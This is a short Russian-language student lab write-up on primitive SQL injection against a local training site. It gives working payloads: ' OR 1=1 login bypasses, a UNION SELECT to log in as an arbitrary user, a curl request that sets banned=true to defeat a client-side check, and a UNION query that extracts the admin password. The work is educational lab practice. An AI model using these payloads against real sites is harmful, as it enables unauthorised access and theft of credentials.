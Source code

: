# Лабораторная работа 3. Примитивные SQL инъекции.

## Задание 1
Запустим сайт из VSCode. Обойдем защиту двумя способами:

### С помощью кодирования кавычек:
	' OR 1=1;--

### Войдя под произвольным логином:
	' OR 1=1
	  UNION
	  SELECT 'xexe'
	  ORDER BY 1 DESC; --

## Задание 2
Обойдем клиентскую защиту с помощью ``curl``:

	curl 'http://localhost:8080/signin'
	--data-raw 'name=Daria&pass=qazwsx&banned=true'

## Задание 3
Обойдем защиту с помощью кодирования кавычки в альтернативный формат:

	' OR 1=1;--

## Задание 4
Обойдем защиту с помощью кодирования кавычки в альтернативный формат и получим пароль из БД:

	' UNION
	  SELECT null, (SELECT name || '--' || pass
FROM users WHERE name = %27admin%27--), NULL FROM dual --
